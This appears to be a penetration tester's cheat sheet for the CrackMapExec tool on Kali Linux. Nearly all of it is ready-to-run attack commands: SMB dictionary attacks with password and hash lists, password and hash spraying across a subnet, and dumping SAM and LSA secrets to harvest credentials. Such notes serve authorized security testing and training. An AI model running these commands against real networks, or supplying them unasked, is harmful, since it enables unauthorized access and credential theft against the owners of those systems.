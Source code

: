```bash - kali
sudo apt install crackmapexec
```

```bash - kali
crackmapexec --help
```

#### [error] Is a directory
When you get the "Is a directory" error, just cd ../ and run again as shown below, so your target's IP folder is not there.  

![[Pasted image 20220107163056.png|1000]]

#### Dictionary attack (Hashes)
```bash - kali
crackmapexec smb $TARGET -u $HOSTNAME/$USERS_FILE -H $HOSTNAME/$HASHES_FILE
```

#### Dictionary attack (Passwords)
```bash - kali
crackmapexec smb $TARGET -u $USER -p /usr/share/seclists/Passwords/Common-Credentials/best1050.txt
```

#### User dictionary attack with single password
```bash - kali
crackmapexec smb $TARGET -u $USERS_FILE -p '$PASSWORD'
```

#### Spray username and hash
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -H $HASH
```

#### Spray username and password
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD
```

#### sam file dump with crackmapexec
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD --sam
```

#### lsa file dump with crackmapexec
```bash - kali
crackmapexec smb x.x.x.0/24 -u $USER -d $DOMAIN -p $PASSWORD --lsa
```
